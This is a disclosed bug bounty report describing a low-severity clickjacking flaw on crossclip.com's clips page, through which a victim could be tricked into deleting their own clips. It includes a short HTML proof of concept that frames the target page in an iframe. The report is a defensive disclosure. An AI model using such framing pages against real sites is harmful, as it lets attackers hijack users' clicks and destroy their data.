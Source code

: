 # clickjacking on deleting user's clips [https://crossclip.com/clips]

## Report Details
- **Report ID**: 1294767
- **URL**: https://hackerone.com/reports/1294767
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-08-08T00:02:21.717Z
- **Disclosed**: 2021-11-05T20:39:29.102Z

## Reporter
- **Username**: ibrahimatix0x01
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: logitech

## Vulnerability Information
## Summary:
An attacker can trick  victim to delete his own clips on https://crossclip.com/clips.
## Steps To Reproduce:
{F1403810}
  1. Login
  1. Create an HTML file with the following code.
```
<html lang="en-US">
<head>
<meta charset="UTF-8">
<title>I-Frame</title>
</head>
<body>
<center><h1>THIS PAGE IS VULNERABLE TO CLICKJACKING</h1>

<iframe src="https://crossclip.com/clips" frameborder="0 px" height="1200px" width="1920px"></iframe>
</center>
</body>
</html>

```
  

## Supporting Material/References:
{F1403810}

## Impact

tricking user to delete his own clips

## Attachments
- POC.webm
